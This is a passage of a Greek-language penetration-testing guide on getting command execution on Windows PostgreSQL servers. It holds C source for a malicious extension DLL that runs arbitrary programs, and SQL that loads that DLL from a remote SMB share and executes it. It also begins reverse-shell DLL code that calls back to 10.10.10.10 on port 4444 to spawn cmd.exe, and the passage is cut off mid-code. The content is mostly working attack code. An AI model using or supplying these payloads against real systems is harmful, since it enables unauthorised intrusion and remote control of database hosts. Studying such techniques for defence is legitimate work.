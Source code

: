 ```c
Datum
pgsql_exec(PG_FUNCTION_ARGS)
{
/* convert text pointer to C string */
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

/* retrieve the second argument that is passed to the function (an integer)
that will serve as our counter limit*/

int instances = PG_GETARG_INT32(1);

for (int c = 0; c < instances; c++) {
/*launch the process passed in the first parameter*/
ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
}
PG_RETURN_VOID();
}
```
Μπορείτε να βρείτε το DLL που έχει μεταγλωττιστεί σε αυτό το zip:

{% file src="../../../.gitbook/assets/pgsql_exec.zip" %}

Μπορείτε να υποδείξετε σε αυτό το DLL **ποιο δυαδικό αρχείο να εκτελέσει** και τον αριθμό των φορών που θα το εκτελέσει, σε αυτό το παράδειγμα θα εκτελέσει το `calc.exe` 2 φορές:
```bash
CREATE OR REPLACE FUNCTION remote_exec(text, integer) RETURNS void AS '\\10.10.10.10\shared\pgsql_exec.dll', 'pgsql_exec' LANGUAGE C STRICT;
SELECT remote_exec('calc.exe', 2);
DROP FUNCTION remote_exec(text, integer);
```
Στο [**εδώ** ](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html) μπορείτε να βρείτε αυτό το reverse-shell:
```c
#define PG_REVSHELL_CALLHOME_SERVER "10.10.10.10"
#define PG_REVSHELL_CALLHOME_PORT "4444"

#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <winsock2.h>

#pragma comment(lib,"ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

#pragma warning(push)
#pragma warning(disable: 4996)
#define _WINSOCK_DEPRECATED_NO_WARNINGS

BOOL WINAPI DllMain(_In_ HINSTANCE hinstDLL,
_In_ DWORD fdwReason,
_In_ LPVOID lpvReserved)
{
WSADATA wsaData;
SOCKET wsock;
struct sockaddr_in server;
char ip_addr[16];
STARTUPINFOA startupinfo;
PROCESS_INFORMATION processinfo;

char *program = "cmd.exe";
```